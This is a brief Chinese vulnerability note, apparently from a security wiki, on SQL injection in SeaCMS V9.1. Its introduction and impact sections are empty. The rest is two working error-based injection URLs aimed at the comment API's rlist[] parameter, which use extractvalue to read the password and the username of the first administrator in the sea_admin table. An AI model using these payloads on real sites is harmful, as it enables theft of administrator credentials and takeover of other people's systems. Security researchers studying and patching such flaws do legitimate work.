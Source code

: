 ```yaml
---
title: "Seacms V9.1 版本SQL注入"
id: zhfly3117
---
```


# Seacms V9.1 版本SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> 获取管理员表中第一个用户的密码

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(password)from%20sea_admin))),@`%27` 
```

> 获取管理员表中第一个用户的账号

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20(name)from%20sea_admin))),@`%27` 
```